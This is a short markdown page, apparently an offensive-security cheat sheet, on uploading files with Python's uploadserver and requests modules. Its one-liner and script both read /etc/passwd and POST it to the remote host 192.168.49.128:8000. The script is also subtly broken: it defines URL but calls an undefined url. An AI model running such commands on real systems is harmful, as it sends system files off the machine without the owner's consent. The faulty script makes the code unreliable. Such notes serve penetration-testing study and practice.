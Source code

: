 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Python Upload

## Python uploadserver Module

```shell
clue@machine[/]$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

## Python requests Module

The **Python3 requests module** allows you to send HTTP requests (GET, POST, PUT, etc.) using Python.

**requests module one-liner:**

```shell
clue@machine[/]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

**requests module script:**

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```
